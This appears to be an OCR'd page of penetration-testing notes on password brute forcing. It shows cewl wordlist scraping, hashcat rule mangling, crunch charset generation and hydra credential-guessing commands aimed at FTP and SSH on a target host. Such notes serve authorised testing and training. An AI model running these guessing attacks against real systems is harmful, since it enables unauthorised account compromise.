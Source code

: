 # Brute Force - CheatSheet

#### Fkn Check for Default Credentials

#### Reliable

```bash
cewl -g --with-numbers -d 20 $url |grep -v CeWL > custom-wordlist.txt
cat users.txt >> custom-wordlist.txt
echo "summer\nwinter\nspring\nfall\nautumn$dom" >> custom-wordlist.txt
hashcat --stdout -a 0 -r ~/repos/offsec/customizations/bdg.rule custom-wordlist.txt | awk '!a[$0]++ {print $0}' >> custom-passwords.txt

hydra -C /opt/SecLists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt $ip ftp
```

```bash
echo sales >> users.txt
```

```
hydra -L valid.txt -P valid.txt $ip ftp -I
hydra -L valid.txt -P valid.txt $ip ssh -I
```

```bash
# Try username, hostname as passwords
```

```bash
sed -ri '/^.{,7}$/d' custom-passwords.txt #   Remove Passwords Shorter Than 8
sed -ri '/[!-/:-@\[-`\{-~]+/!d' custom-passwords.txt   #  Remove Passwords With No Special Chars
sed -ri '/[0-9]+/!d' custom-passwords.txt #   Remove Passwords With No Numbers
```

### Crunch

```bash
crunch 4 6 0123456789ABCDEF -o crunch1.txt #From length 4 to 6 using that alphabet
crunch 4 4 -f /usr/share/crunch/charset.lst mixalpha # Only length 4 using charset mixalpha (inside file charset.lst)

@ Lower case alpha characters
, Upper case alpha characters
% Numeric characters
^ Special characters including spac
crunch 6 8 -t ,@@^^%%
```

### Try the rockyou when you're doing john

### Cewl

```bash
cewl example.com -m 5 -w words.txt
```
